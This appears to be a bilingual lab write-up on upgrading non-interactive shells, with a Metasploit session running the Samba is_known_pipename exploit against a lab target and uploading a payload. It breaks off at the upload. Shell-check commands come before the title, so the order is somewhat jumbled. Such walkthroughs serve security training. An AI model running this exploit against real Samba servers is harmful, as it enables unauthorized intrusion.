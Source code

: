 This is just ensures that the interactive shell that you've obtained is fully functional.

```
ls -alps
```

We can check whether specific utilities are installed.

```
top
wget
```

# Upgrading Non-Interactive Shells
## Overview
Goal

This lab covers the process of upgrading non-interactive shells.

# 升级非交互式 shell
## 概述
目标

本实验涵盖了升级非交互式 shell 的过程。

## 复现视频内容
Kali Linux : 192.124.187.2

Target IP Address : 192.124.187.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > setg RHOSTS 192.124.187.3
RHOSTS => 192.124.187.3
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.124.187.3    yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.124.187.3:445 - Using location \\192.124.187.3\exploitable\tmp for the path
[*] 192.124.187.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.124.187.3:445 - Share 'exploitable' has server-side path '/
[*] 192.124.187.3:445 - Uploaded payload to \\192.124.187.3\exploitable\tmp\CenBRbGr.so
```